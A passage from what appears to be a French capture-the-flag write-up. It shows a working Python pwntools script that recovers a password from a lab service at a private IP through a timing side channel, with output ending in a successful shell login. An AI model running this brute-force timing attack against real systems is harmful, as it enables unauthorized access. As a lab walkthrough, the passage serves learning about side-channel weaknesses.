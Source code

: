 ```python
r.close()
```

J'ai testé avec la wordlist rockyou mais ça n'a rien trouvé ! Le programme ne semble pas non plus vulnérable à une format string.

Finalement j'ai trouvé un indice sur le web : le programme répond moins vite pour chaque mauvais caractère saisi.

J'ai donc adapté mon code de cette façon :

```python
import sys
import string
from time import monotonic

from pwnlib.tubes.remote import remote

password = ""
while True:
    r = remote("192.168.56.83", 54311)
    buff = r.recvuntilS(b"Password: ")
    min_time = 60
    good_letter = "²"

    for char in string.printable.strip():
        line = password + char + "\n"
        start = monotonic()
        r.send(line)
        response = r.readlineS().strip()
        delay = monotonic() - start
        if delay < min_time:
            min_time = delay
            good_letter = char

        if response != "Invalid password!":
            print(f"Possibly found password {line.strip()}: {response}")
            sys.exit()
        r.recvuntilS(b"Password: ")

    password += good_letter
    print(password)
    r.close()
```

Je teste pour chaque position tous les caractères ascii affichables et je conserve celui qui a généré le moins de délais.

Je réitère ensuite l'opération pour le suivant. L'output ressemble à ceci :

```
R
R3
R3s
--- snip ---
R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG
R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0
Possibly found password R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0d: Logged in successfully, type exit to close the shell
```
